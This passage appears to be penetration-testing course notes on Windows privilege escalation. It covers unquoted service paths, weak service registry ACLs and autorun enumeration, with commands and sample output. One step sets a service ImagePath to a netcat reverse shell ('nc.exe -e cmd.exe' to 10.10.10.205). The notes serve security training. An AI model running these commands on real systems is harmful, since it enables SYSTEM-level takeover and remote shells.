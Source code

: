 2) Searching for Unquoted Service Paths

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
GVFS.Service                                                                        GVFS.Service                              C:\Program Files\GVFS\GVFS.Service.exe                                                 Auto
System Explorer Service                                                             SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe             Auto
WindscribeService                                                                   WindscribeService                         C:\Program Files (x86)\Windscribe\WindscribeService.exe                                  Auto
```

3) Creating an hijacking library

If we can create the following files, we would be able to hijack the service binary and gain command execution in the context of the service, in this case, NT AUTHORITY\SYSTEM.

C:\Program.exe\
C:\Program Files (x86)\System.exe

--> Often, it is not exploitable

## Permissive Registry ACLs

1) Checking for Weak Service ACLs in Registry

```
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP> 
```

2) Changing ImagePath with PowerShell

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## Modifiable Registry Autorun Binary

1) Check Startup Programs

```
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

Name     : OneDrive
command  : "C:\Users\mrb3n\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : Windscribe
command  : "C:\Program Files (x86)\Windscribe\Windscribe.exe" -os_restart
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

```